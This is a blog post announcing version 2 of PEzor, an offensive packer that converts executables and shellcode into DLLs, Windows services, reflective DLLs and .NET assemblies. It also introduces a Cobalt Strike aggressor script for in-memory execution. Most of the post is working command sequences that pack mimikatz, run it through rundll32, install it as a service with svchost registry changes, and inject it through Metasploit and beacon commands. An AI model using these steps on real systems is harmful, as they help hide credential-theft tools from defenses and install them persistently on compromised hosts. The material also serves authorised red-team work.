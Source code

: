 ```yaml
---
layout: default
---
```


_**Oct 26, 2020**_

# Announcing PEzor v2 — New Output Formats and Cobalt Strike Integration

The `execute-assembly` capability of [Cobalt Strike](https://www.cobaltstrike.com/)'s beacon lets operators execute .NET assemblies without touching the disk and it's deeply influencing the recent offensive developments by pushing the community to move towards .NET and C#. But wouldn't be nice if we could [execute arbitary executables](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html) with the same ease? Let's find out how we can achieve that with [PEzor](https://iwantmore.pizza/posts/PEzor.html)!

![PEzor with Cobalt Strike](../assets/images/pezor-cobaltstrike.jpg "PEzor with Cobalt Strike")

## The Idea

[Cobalt Strike](https://www.cobaltstrike.com/) supports two techniques to execute in-memory post-ex capabilities:

1. [bdllspawn](https://www.cobaltstrike.com/aggressor-script/functions.html#bdllspawn): this function orders the beacon implant to retrieve a [reflective DLL](https://www.exploit-db.com/docs/english/13007-reflective-dll-injection.pdf) from the C2 server, create a sacrificial process, inject the payload in its memory and creating a thread to execute the exported function `ReflectiveLoader`, responsible of manually mapping the foreign DLL into target process without requiring the OS loader. In order to produce a reflective DLL from a regular one, we need to update its source code to integrate [Stephen Fewer's library](https://github.com/stephenfewer/ReflectiveDLLInjection) and compile it.
2. [bexecute_assembly](https://www.cobaltstrike.com/aggressor-script/functions.html#bexecute_assembly): this function orders the beacon implant to retrieve a .NET assembly from the C2 server, create a sacrificial process, inject a CLR hosting reflective DLL that will bootstrap the .NET runtime and pass the provided assembly to it. This technique doesn't require modification to the original source code since it can execute .NET PEs out of the box and for this reason it has been quite popular. However, we are limited to execute .NET assembly, so any native binary is a no-go if we don't want to touch the disk.

After some research, I had the idea to improve [PEzor](https://iwantmore.pizza/posts/PEzor.html) in order to be able to produce different output formats than regular PE executables: if we can automate the process of converting an existing EXE/DLL/etc to other formats such as DLLs, reflective DLLs and .NET assemblies while maintaining the original semantic intact, we could implement a new command in [Cobalt Strike](https://www.cobaltstrike.com/) that can convert on the fly arbitrary executables and task the beacon to execute it in-memory.

## New Output Formats

Currently, PEzor supports the following output formats, given an arbitrary executable or raw shellcode:

- **exe**: this is the only format that was supported by PEzor v1, that is a native binary
- **dll**: PEzor can now convert existing executables to their DLL counterpart, without requiring to recompile from the sources
- **service-exe**: it can produce a Service EXE version of the native binary, that exports required functions to be run as a system service
- **service-dll**: it can produce a Service DLL version of the native binary, that exports required functions to be run inside a `dllhost` process
- **reflective-dll**: it can produce a reflective DLL version of the native binary, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's reflective_dll_inject](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/manage/reflective_dll_inject.rb) module
- **dotnet**: it can produce a .NET binary equivalent to the native one, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's execute_dotnet_assembly](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/execute_dotnet_assembly.rb) module

## Examples

Let's see how we can generate and execute the new formats.

- **exe**
```
# generate
$ PEzor -format=exe mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> .\mimikatz.exe.packed.exe
```

- **dll**
```
# generate
$ PEzor -format=dll mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> rundll32 .\mimikatz.exe.packed.dll,DllMain
```

- **service-exe**  
```
# generate
$ PEzor -format=service-exe mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> sc create mimiservice binpath= C:\Users\Public\mimikatz.exe.packed.service.exe
[SC] CreateService SUCCESS

C:\Users\Public> sc start mimiservice
SERVICE_NAME       : mimiservice
        TYPE               : 20  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 913
        FLAGS              : 0x0
```

- **service-dll**
```
# generate
$ PEzor -format=service-dll mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> copy /y mimikatz.packed.exe.service.dll %SystemRoot%\System32\SvcHostDemo.dll
        1 file(s) copied.

C:\Users\Public> sc create SvcHostDemo binpath= ^%SystemRoot^%"\System32\svchost -k mygroup" type= share start= demand
[SC] CreateService SUCCESS

C:\Users\Public> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost" /v mygroup /t REG_MULTI_SZ /d SvcHostDemo /f
The operation completed successfully.

C:\Users\Public> sc start SvcHostDemo
SERVICE_NAME       : SvcHostDemo
        TYPE               : 30  WIN32
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1823
        FLAGS              : 0x0
```

- **reflective-dll**
```
# generate
$ PEzor -format=reflective-dll mimikatz.exe -z 2 -p '"coffee" "exit"'

# execute
msf5 > use post/windows/manage/reflective_dll_inject
msf5 post(windows/manage/reflective_dll_inject) > set PATH mimikatz.exe.packed.reflective.dll
msf5 post(windows/manage/reflective_dll_inject) > set WAIT 10
msf5 post(windows/manage/reflective_dll_inject) > run
```

## Cobalt Strike Integration

Now we know how to generate different outputs and manually execute them, but how can we integrate this new tool within Cobalt Strike? To have a smooth _OX_ (operator experience), I wrote an [aggressor script](https://www.cobaltstrike.com/aggressor-script/index.html) that provide a transparent command similar to `execute-assembly` that can be invoked with the same command line options of PEzor: the script will automatically launch in background PEzor to convert the provided executable to the desired format (reflective-dll and dotnet) and task the beacon to inject the reflective DLL or execute in-memory the generated .NET assembly. The script can be found [here](https://github.com/phra/PEzor/blob/master/aggressor/PEzor.cna).

```
# convert and execute reflective DLL
beacon> execute-inmemory -format=reflective-dll mimikatz.exe -z 2 -p '"coffee" "exit"'

# convert and execute .NET assembly
beacon> execute-inmemory -format=dotnet mimikatz.exe -z 2 -p '"coffee" "exit"'
```

[back](../)
